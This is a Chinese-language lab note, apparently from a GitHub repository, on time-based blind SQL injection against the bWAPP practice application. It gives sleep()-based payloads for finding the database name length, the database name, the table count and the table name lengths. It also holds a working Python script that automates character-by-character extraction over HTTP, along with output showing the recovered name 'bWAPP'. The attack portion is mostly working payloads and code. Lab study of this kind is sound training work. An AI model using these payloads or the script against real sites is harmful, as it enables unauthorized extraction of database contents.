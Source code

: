 # Time Based sqlinject

针对 网页无回显的  时间盲注。

## 1 POC
bwapp靶场
### 1.1 数据库长度
```sql
Iron Man' and length(database()) = 1  and sleep(2) -- 
Iron Man' and length(database()) = 2  and sleep(2) -- 
```
![img.png](imgs/time-based-sqli2.png)

响应时间为 毫秒级
```sql
Iron Man' and length(database()) > 1  and sleep(2) -- 
Iron Man' and length(database()) = 5  and sleep(2) -- 
```
![img.png](imgs/time-base-sqli.png)

响应时间为 秒级 说明 length() 中间为真，以此判断数据库名 长度。

### 1.2 数据库名字
```sql
ascII 33 - 127
Iron Man' and ascii(substr(database(),{},1))={} and sleep(1) --
```
![img.png](imgs/ascii码表.png)

### 1.3 当前数据库表的个数
```sql
Iron Man' and (select count(table_name) from information_schema.TABLES where TABLE_SCHEMA = database()) = 1 and sleep(1) --
```

### 1.4 当前数据库  各个表 的名字 的长度
```sql
Iron Man' and (select length(table_name) from information_schema.TABLES where TABLE_SCHEMA = database() limit 1,1) = 1 and sleep(1) -- 
```

### 1.5 获取每张表的名称
```sql
substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),2,1);
```
![img.png](imgs/select_substr().png)


### 1.6 获取 USERS 表中所有字段



### 2 编写 python 脚本

```python
import requests
import time

HEADER = {
    "Cookie": "Pycharm-96f049d=ea851b36-b300-4205-981a-df8d72e498c8; security_level=0; PHPSESSID=lu3shbpndil1gbjrbtulpdidp3"
}
BASE_URL = "http://localhost:9999/sqli_15.php"


def get_database_name_length() -> int:
    count = 0
    for i in range(100):
        # --+ 注释可用
        url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) --+&action=search".format(i)

        # --空格 注释可用
        # url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) -- &action=search".format(i)

        # # 注释不可用，原因可能是 url中#号是用来指导浏览器动作的
        # url = BASE_URL + "?title=Iron Man' and length(database()) = {} and sleep(1) # &action=search".format(i)

        start_time = time.time()
        resp = requests.get(url, headers=HEADER)
        # print(resp.content)
        if time.time() - start_time > 1:
            print("长度为{}".format(i))
            count = i
            return count


def get_database_name(count):
    for i in range(count + 1):
        for j in range(33, 127):
            url = BASE_URL + "?title=Iron Man' and ascii(substr(database(),{},1))={} and sleep(1) --  &action=search".format(
                i, j)
            start_time = time.time()
            resp = requests.get(url, headers=HEADER)
            if time.time() - start_time > 1:
                print(chr(j), end="")


# get_database_name_length()
get_database_name(get_database_name_length())
```

### 2.1结果
```
长度为5
bWAPP
进程已结束,退出代码0

表个数为5

表0长度为4
表1长度为6
表2长度为6
表3长度为5
表4长度为8

进程已结束,退出代码0
```
![img.png](imgs/time-based-sqli-bwapptables.png)